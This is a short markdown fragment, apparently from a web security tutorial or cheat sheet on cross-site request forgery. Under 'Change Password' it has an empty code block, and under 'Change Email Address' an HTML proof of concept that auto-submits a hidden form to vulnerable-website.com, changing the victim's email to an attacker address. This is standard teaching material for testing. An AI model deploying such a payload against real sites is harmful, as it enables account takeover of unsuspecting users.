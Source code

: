 ### Change Password

```html

```

### Change Email Address
```html
<html> 
	<body>
		<form action="https://vulnerable-website.com/email/change" method="POST"> 
			<input type="hidden" name="email" value="pwned@evil-user.net" /> 
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>	
</html>
```
